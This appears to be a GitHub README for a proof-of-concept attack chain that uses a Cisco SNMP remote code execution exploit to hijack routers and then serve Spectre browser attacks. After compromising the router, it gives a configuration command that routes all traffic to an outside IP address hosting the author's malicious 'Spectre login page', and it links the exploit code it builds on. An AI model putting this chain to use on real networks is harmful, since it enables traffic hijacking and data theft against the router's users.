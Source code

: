 # CiscoSpectreTakeover
A **PoC** chain exploit using the recent Cisco SMP exploit (CVE-2017-6736) to chain into Spectre (CVE-2017-5753 and CVE-2017-5715)

## Credits

Cisco RCE Exploit submodule by artkond: https://github.com/artkond/cisco-snmp-rce

JS Spectre Chrome POC by ascendr: https://github.com/ascendr/spectre-chrome

Tested on a Cisco 1841+2600 Router.

After running the RCE exploit. As config, run:

```Router(config)> ip route 0.0.0.0 0.0.0.0 195.20.52.49```

This will force all traffic through the Spectre login page I created. 
At a later date I will add a better version that addresses actually going to websites.